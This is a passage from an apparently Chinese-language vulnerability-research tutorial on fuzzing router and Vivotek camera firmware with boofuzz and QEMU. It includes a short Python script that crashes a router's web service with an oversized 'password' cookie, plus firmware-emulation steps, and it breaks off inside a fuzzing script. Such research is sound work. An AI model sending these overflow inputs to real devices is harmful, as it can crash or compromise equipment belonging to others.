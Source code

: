 在开始之前记得用 pip 安装一下 boofuzz，因为已经知道漏洞点了，所以很快就能跑出结果了

![](https://bbs.kanxue.com/upload/attach/202406/777502_FXP86SS8UV75GGB.jpg)

可以看到在 password 给出了一个非常长的值后程序崩溃了，验证其实也很简单，直接用 Python 脚本访问之前给 br0 的地址，端口是 80，cookie 中给一个超长的值就能复现崩溃了

```
import requests
 
ip = "10.10.10.1"                                #此处修改为自己的IP
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
#print ret.text

```

最后在 bLanguage 这个字段也有个溢出，大家可以尝试修改上面的 fuzz 脚本复现一下

### Vivotek 漏洞栈溢出

这是一个 2017 年爆出的贼老的栈溢出漏洞，不过用来学习 boofuzz 的使用还是不错的

#### 环境问题

首先使用 binwalk 解包固件后会有不少文件，文件系统在这个目录下

```
_CC8160-VVTK-0100d.flash.pkg.extracted/_31.extracted/_rootfs.img.extracted/squashfs-root

```

http 服务用的是 boa

这里有两个点需要修复

首先将宿主机中 / etc/hosts 文件夹中的内容全部复制到固件文件系统的 / etc/hosts 文件中去

![](https://bbs.kanxue.com/upload/attach/202406/777502_UXP7QRRN9NETAE3.jpg)

然后将 _31.extracted/defconf/_CC8160.tar.bz2.extracted/_0.extracted/etc/ 目录直接拷贝到 squashfs-root/mnt/flash/ 目录中去，这一步主要是解决 boa 的 config 文件缺失问题

![](https://bbs.kanxue.com/upload/attach/202406/777502_W6ZUPR29XBPBWTT.jpg)

接下来直接用 qemu 命令运行 httpd 服务就行了

![](https://bbs.kanxue.com/upload/attach/202406/777502_664B4KFPM8SSMUT.jpg)

#### fuzz 部分

fuzz 这个洞的脚本如下

```
from boofuzz import *  
 
IP = "127.0.0.1"
PORT = 80
 
def check_response(target, fuzz_data_logger, session, *args, **kwargs):
    fuzz_data_logger.log_info("Checking test case response...")
    try:
        response = target.recv(512)
    except:
        fuzz_data_logger.log_fail("Unable to connect to target. Closing...")
        target.close()
        return
 
    #if empty response
    if not response:
```